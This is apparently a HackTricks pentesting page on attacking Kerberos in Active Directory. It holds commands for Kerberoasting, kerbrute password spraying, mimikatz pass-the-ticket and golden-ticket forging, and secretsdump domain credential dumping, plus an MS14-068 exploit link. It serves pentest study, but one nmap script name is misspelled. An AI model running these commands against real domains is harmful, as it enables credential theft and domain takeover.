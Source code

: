 # 88tcp/udp - Pentesting Kerberos

## Basic Information

**Kerberos** operates on a principle where it authenticates users without directly managing their access to resources. This is an important distinction because it underlines the protocol's role in security frameworks.

In environments like **Active Directory**, **Kerberos** is instrumental in establishing the identity of users by validating their secret passwords. This process ensures that each user's identity is confirmed before they interact with network resources. However, **Kerberos** does not extend its functionality to evaluate or enforce the permissions a user has over specific resources or services. Instead, it provides a secure way of authenticating users, which is a critical first step in the security process.

After authentication by **Kerberos**, the decision-making process regarding access to resources is delegated to individual services within the network. These services are then responsible for evaluating the authenticated user's rights and permissions, based on the information provided by **Kerberos** about the user's privileges. This design allows for a separation of concerns between authenticating the identity of users and managing their access rights, enabling a more flexible and secure approach to resource management in distributed networks.

Kerberos is a network authentication protocol that works on the basis of "tickets" to allow nodes to prove their identity over a non-secure network in a secure manner. Kerberos provides mutual authentication—both the user and the server verify each other's identity.

**Default Port:** 88/tcp/udp

```
PORT   STATE SERVICE
88/tcp open  kerberos-sec
```
## Recon
### Identify Kerberos
To find all machines on a network that respond to Kerberos on TCP port 88:
```
nmap -p 88 --open --script=keberos -Pn -oA nmap/Kerberos 10.0.0.0/24
```
## Enumeration
### GetUserSPNs
We can use GetUserSPNs.py from Impacket to request Service Principal Names (SPNs) which might reveal valuable information and valid usernames.
```
python GetUserSPNs.py -request -dc-ip 10.0.0.1 DOMAIN/user
```
# Attack Vectors
### Password Guessing
Test for weak passwords associated with Kerberos-enabled users.
```
kerbrute password -d domain.com -t 10.0.0.1 UsersPasswords.txt
```
## Pass the Ticket
Once a valid Kerberos ticket is obtained, PtT (Pass the Ticket) attacks can be performed using mimikatz.
```
mimikatz "kerberos::ptt ticket.kirbi"
```
Replace "ticket.kirbi" with your Kerberos ticket file.

mimikatz injects this ticket into memory, so any following command is authenticated against the Kerberos server using this ticket.

## Kerberoasting
User accounts with SPNs can be Kerberoasted. This involves requesting a service ticket for the user, which can then be cracked offline.
```
python GetUserSPNs.py -request -dc-ip 10.0.0.1 DOMAIN/user
```
# Post-Exploitation
### Secrets Dumping
Once the system is compromised, a dump of all critical data including tickets, hashes, etc. can be performed to extend the attack.
Using 'secretsdump.py' from Impacket:
```
python secretsdump.py -just-dc domain/Administrator:Password@10.0.0.1
```
Replace "domain/Administrator:Password" with the valid user and password.

## Golden Ticket Attack
### Creating a golden ticket allows virtually unrestricted access to the whole domain. For this, using mimikatz commands:
```
mimikatz "kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-XXXX /krbtgt:eeb9046b77d48962314e376f1925065a /id:500"
```
### **To learn how to abuse Kerberos you should read the post about** [**Active Directory**](../../windows-hardening/active-directory-methodology/)**.**

## More

### Shodan

* `port:88 kerberos`

### MS14-068

The MS14-068 flaw permits an attacker to tamper with a legitimate user's Kerberos login token to falsely claim elevated privileges, such as being a Domain Admin. This counterfeit claim is mistakenly validated by the Domain Controller, enabling unauthorized access to network resources across the Active Directory forest.

{% embed url="https://adsecurity.org/?p=541" %}

Other exploits: [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek)

## HackTricks Automatic Commands

```
Protocol_Name: Kerberos    #Protocol Abbreviation if there is one.
Port_Number:  88   #Comma separated if there is more than one.
Protocol_Description: AD Domain Authentication         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for Kerberos
  Note: |
    Kerberos operates on a principle where it authenticates users without directly managing their access to resources. This is an important distinction because it underlines the protocol's role in security frameworks.
    In environments like **Active Directory**, Kerberos is instrumental in establishing the identity of users by validating their secret passwords. This process ensures that each user's identity is confirmed before they interact with network resources. However, Kerberos does not extend its functionality to evaluate or enforce the permissions a user has over specific resources or services. Instead, it provides a secure way of authenticating users, which is a critical first step in the security process.

    https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88

Entry_2:
  Name: Pre-Creds
  Description: Brute Force to get Usernames
  Command: nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="{Domain_Name}",userdb={Big_Userlist} {IP}

Entry_3:
  Name: With Usernames
  Description: Brute Force with Usernames and Passwords
  Note: consider git clone https://github.com/ropnop/kerbrute.git ./kerbrute -h

Entry_4:
  Name: With Creds
  Description: Attempt to get a list of user service principal names
  Command: GetUserSPNs.py -request -dc-ip {IP} active.htb/svc_tgs
```
